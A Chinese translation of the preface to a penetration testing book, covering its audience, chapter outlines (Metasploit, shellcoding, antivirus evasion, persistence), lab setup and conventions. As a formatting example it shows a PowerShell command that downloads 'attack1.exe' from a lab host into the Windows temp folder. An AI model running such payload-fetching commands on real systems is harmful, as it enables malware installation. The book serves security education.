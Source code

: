 # 前言

也许你刚刚完成了一期关于道德黑客的训练营，但仍然无法满足。也许你是一名管理员，意识到是时候了解坏人如何利用这些黑暗技术。也可能是有人误解了你对喜欢鸟窝的热情，在你生日时送了你这本书。无论你是谁（最后那位除外），这本书都适合你。但为什么选择这本书呢？

坦率地说：这个主题往往很枯燥。有时候，感觉作者只是告诉我们事实，提供了讨论中涉及的概念的基础信息。我认为，如果感觉更像是一个互动式学习会话而不是一堂讲座，体验会更愉快。因此，我努力以更加对话和放松的方式讨论渗透测试。阅读这本书应该感觉我们只是在实验室里一起探索这些概念。我想现在的孩子们称之为“共振”。我得问问我的侄女们。

这本书不适合完全的初学者，但适合不同经验水平的人。总体而言，假设你在信息技术和网络安全方面有一些经验和教育。这本书不会“教你如何入侵”，事实上，许多实验室展示的是旧攻击，不太可能在现实环境中成功。然而，它们提供的基础概念仍然非常相关。这些课程对于那些希望理解核心概念并将其转化为现代攻击的人将是有价值的。这本书强调理解而不是盲目跟随步骤。

# 这本书适合谁

这本书适合渗透测试人员、IT 专业人员以及在展示了在训练营中获得的高级技能后转入渗透测试角色的个人。具有 Windows、Linux 和网络方面的先前经验会很有帮助。

# 这本书涵盖了什么

*第一章*，*开放源情报*，介绍了如何利用公开可用的资源，如 Google，收集关于目标的令人惊讶的有用信息。

*第二章*，*绕过网络访问控制*，检查了如何根据系统的“外观”控制网络访问，并且我们如何调整这种外观。

*第三章*，*嗅探与欺骗*，探索了拦截数据流（或空中数据）并动态操纵数据的世界。

*第四章*，*网络中的 Windows 密码*，审查了 Windows 在网络身份验证过程中管理密码的方式以及如何拦截这些尝试。

*第五章*，*评估网络安全*，提供了一个关于网络分析和使用 Nmap 进行漏洞评估的速成课程，进一步讲解了如何截获数据并注入我们自己的数据，同时回顾了在今天 IPv4 仍占主导地位的世界中 IPv6 的应用。

*第六章*，*密码学与渗透测试*，探讨了如何利用密码学实现中的漏洞进行攻击。

*第七章*，*使用 Metasploit 进行高级利用*，深入探讨了 Metasploit 的内部工作原理，以及如何将 Metasploit 生成的有效载荷与其他优秀工具（如 Shellter）结合使用。

*第八章*，*Python 基础*，从渗透测试者的角度提供了 Python 的速成课程。这一基础知识在本书后续章节中非常有用。

*第九章*，*PowerShell 基础*，同样提供了一个脚本语言 PowerShell 的速成课程。这一基础知识在后续实验中也会非常有用。

*第十章*，*Shellcoding – 栈*，回顾了栈的工作原理及其如何被操控。

*第十一章*，*Shellcoding – 绕过防护*，基于*第十章*中的栈基础，*Shellcoding – 栈*，探讨了防御者如何应对这些攻击，以及诸如面向返回的编程（ROP）等攻击如何在这些应对措施面前做出调整。

*第十二章*，*Shellcoding – 避开杀毒软件*，探讨了当我们利用 PowerShell“生存”时，如何让反恶意软件工具感到困惑，以及 Shellter 动态注入方法的替代方案：洞跳。

*第十三章*，*Windows 内核安全*，为我们提供了关于如何发现内核弱点的基础知识，并探讨了真实世界中的示例。

*第十四章*，*模糊测试技术*，提供了模糊测试方法论的实际回顾，以及如何根据测试结果指导漏洞开发。

*第十五章*，*超越立足点*，探讨了在我们最终在目标系统中建立初步立足点后，如何进行侦察和从这个特权位置进一步发动攻击的步骤。

*第十六章*，*提升特权*，更深入地探讨了我们如何使用 Metasploit 在本地提升特权，以及如何在我们不知道密码的情况下找到并使用密码。

*第十七章*，*保持访问权限*，探讨了在成功进入目标环境后，如何保持访问权限，包括利用目标内置功能和专门工具建立抗重启的访问权限。

*答案* 可以通过提供每章末尾测试题的答案来帮助你检查自己的知识。

# 为了从本书中获得最大收益

本书的目的是尽可能强调 Kali 的现成功能。许多商业产品没有被提及，或者如果提到的话，实验室中会回顾免费的替代品（例如，免费的 Shellter 版本与 Shellter Pro）。今天的专业渗透测试员拥有丰富的优秀商业工具，但你可以仅凭现有的免费工具成为一名有效的渗透测试员。根据《黑客宣言》，这也是我们在这些讨论中的初衷。

本书使用的 Kali Linux 版本是 2021.1；然而，在接近出版日期时，我使用了 2022.1 版本进行实验室测试，未发现任何问题。处理器和栈的讨论假定为 32 位操作系统。

Kali Linux 可以免费下载。然而，Windows 是收费操作系统。幸运的是，微软提供了 Windows Server 的评估版以及 Windows 7 和 10 的 Edge 开发者版；这些版本被用作实验室中的 Windows 目标。

使用的虚拟化软件是 VMware Workstation，它是收费软件。你可以使用免费的 Oracle VirtualBox 构建类似的环境。

![](img/B17616_Preface_Table.jpg)

*Windows Server 的评估版可以从* [`www.microsoft.com/en-us/evalcenter/download-windows-server-2016`](https://www.microsoft.com/en-us/evalcenter/download-windows-server-2016) *下载*。

*Windows 7 或 10 的开发者版可以从* [`developer.microsoft.com/en-us/microsoft-edge/tools/vms/`](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/) *下载*。

# 下载彩色图片

我们还提供了一个 PDF 文件，里面包含本书中截图和图表的彩色图片。你可以在此下载：[`packt.link/7UGEZ`](https://packt.link/7UGEZ)。

# 使用的约定

本书中使用了多种文本约定。

**文本中的代码**：表示文本中的代码词、数据库表名、文件夹名、文件名、文件扩展名、路径名、虚拟 URL、用户输入和 Twitter 账号。例如：“你也可以使用 `from [module] import` 来选择你需要的属性。”

一段代码如下所示：

```
11000000.10101000.01101001.00000000
```

```
          Network           Hosts
```

当我们希望特别指出代码块中的某部分时，相关行或项目会加粗显示：

```
11111111.11111111.11100000.00000000
```

```
   255     255      224       0
```

任何命令行输入或输出都按以下方式书写：

> (New-Object System.Net.WebClient).DownloadFile(“http://192.168.63.143/attack1.exe”, “c:\windows\temp\attack1.exe”)

**粗体**：表示新术语、重要词汇或屏幕上显示的词语。例如，菜单或对话框中的词语通常以**粗体**显示。以下是一个例子：“导航到**主机** | **Nmap 扫描** | **快速扫描（操作系统检测）**。”

提示或重要说明

显示如上所示。

# 联系我们

我们始终欢迎读者的反馈。

**一般反馈**：如果你对本书的任何内容有疑问，请通过电子邮件联系我们：customercare@packtpub.com，并在邮件主题中注明书名。

**勘误表**：虽然我们已尽最大努力确保内容的准确性，但错误偶尔会发生。如果你在本书中发现错误，感谢你能向我们反馈。请访问[www.packtpub.com/support/errata](https://www.packtpub.com/support/errata)并填写表单。

**盗版**：如果你在互联网上发现我们作品的任何非法复制版本，感谢你能提供该位置地址或网站名称。请通过电子邮件联系 copyright@packt.com，并附上相关材料的链接。

**如果你有兴趣成为作者**：如果你在某个领域有专长，且有兴趣撰写或参与书籍的编写，请访问[authors.packtpub.com](https://authors.packtpub.com)。

# 分享你的想法

阅读完*《从零开始的 Windows 和 Linux 渗透测试》*后，我们非常希望听到你的反馈！请[点击这里直接前往亚马逊的评价页面](https://packt.link/r/1801815127)，并分享你的意见。

你的评论对我们和技术社区非常重要，将帮助我们确保提供优质的内容。
